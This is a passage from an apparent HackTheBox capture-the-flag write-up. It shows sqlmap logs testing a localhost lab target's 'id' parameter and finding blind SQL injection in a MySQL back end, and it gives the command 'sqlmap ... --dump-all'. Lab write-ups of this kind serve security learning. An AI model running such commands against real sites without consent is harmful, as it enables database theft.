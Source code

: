     [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 16:54:59 /2023-01-29/
    
    [16:54:59] [INFO] testing connection to the target URL
    [16:55:02] [INFO] testing if the target URL content is stable
    [16:55:06] [INFO] target URL content is stable
    [16:55:06] [INFO] testing if GET parameter 'id' is dynamic
    [16:55:09] [WARNING] GET parameter 'id' does not appear to be dynamic
    [16:55:12] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [16:55:16] [INFO] testing for SQL injection on GET parameter 'id'
    [16:55:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [16:56:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [16:57:00] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
    [16:57:35] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    [16:57:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
    [...]
    [16:59:32] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
    [17:00:32] [INFO] GET parameter 'id' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
    [17:00:32] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [...]

Finally, something started to come out, but the constant disconnections made my job difficult, and I had to interrupt and try again several times. It took me a lot of time to find some helpful information.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969"  --dump-all
            ___
           __H__                                                                                                                                                                                             
     ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [.]     | .'| . |                                                                                                                                                                                
    |___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 17:15:26 /2023-01-29/
    
    [17:15:26] [INFO] testing connection to the target URL
    [17:15:27] [INFO] testing if the target URL content is stable
    [17:15:27] [INFO] target URL content is stable
    [17:15:27] [INFO] testing if GET parameter 'id' is dynamic
    [17:15:27] [WARNING] GET parameter 'id' does not appear to be dynamic
    [17:15:28] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [17:15:28] [INFO] testing for SQL injection on GET parameter 'id'
    [17:15:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [17:15:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
    [17:15:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
    [17:15:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
    [17:15:34] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
    [17:15:36] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
    [17:15:38] [INFO] testing 'Generic inline queries'